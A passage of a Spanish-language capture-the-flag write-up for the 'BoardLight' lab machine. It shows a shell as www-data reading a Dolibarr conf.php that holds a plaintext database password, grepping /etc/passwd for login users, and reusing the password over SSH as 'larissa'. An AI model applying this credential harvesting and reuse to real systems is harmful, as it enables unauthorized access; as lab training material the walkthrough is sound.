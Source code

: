     barcode      core        expensereport      install              opensurvey          security.txt       website
    blockedlog   cron        exports            intracommreport      partnership         societe            workstation
    bom          custom      externalsite       knowledgemanagement  paybox              stripe             zapier
    bookcal      datapolicy  favicon.ico        langs                paypal              supplier_proposal
    bookmarks    dav         fichinter          loan                 printing            support
    categories   debugbar    filefunc.inc.php   mailmanspip          product             takepos
    collab       delivery    fourn              main.inc.php         projet              theme
    ```
    
    Vamos a ver el directorio `conf`, ya que se pueden encontrar credenciales de base de datos, encontramos 3 directorios y nos llama la atención el `conf.php`.
    
    Nos encontramos unas credenciales de la base de datos
    
    ```python
    www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
    <?php
    //
    // File generated by Dolibarr installer 17.0.0 on May 13, 2024
    //
    // Take a look at conf.php.example file for an example of conf.php file
    // and explanations for all possibles parameters.
    //
    $dolibarr_main_url_root='http://crm.board.htb';
    $dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
    $dolibarr_main_url_root_alt='/custom';
    $dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
    $dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
    $dolibarr_main_db_host='localhost';
    $dolibarr_main_db_port='3306';
    $dolibarr_main_db_name='dolibarr';
    $dolibarr_main_db_prefix='llx_';
    $dolibarr_main_db_user='dolibarrowner';
    $dolibarr_main_db_pass='serverfun2$2023!!';
    ```
    
    Aparte miramos el `/etc/passwd` encontramos un usuario llamado `larissa`
    
    ```python
    www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat /etc/passwd | grep -i sh$
    root:x:0:0:root:/root:/bin/bash
    larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
    ```
    
     Si nos conectamos con `ssh` con el usuario `larissa` y la `password` encontrada anteriormente, vemos que tenemos acceso
    
    ```python
    ssh larissa@10.10.11.11
    larissa@10.10.11.11's password:
    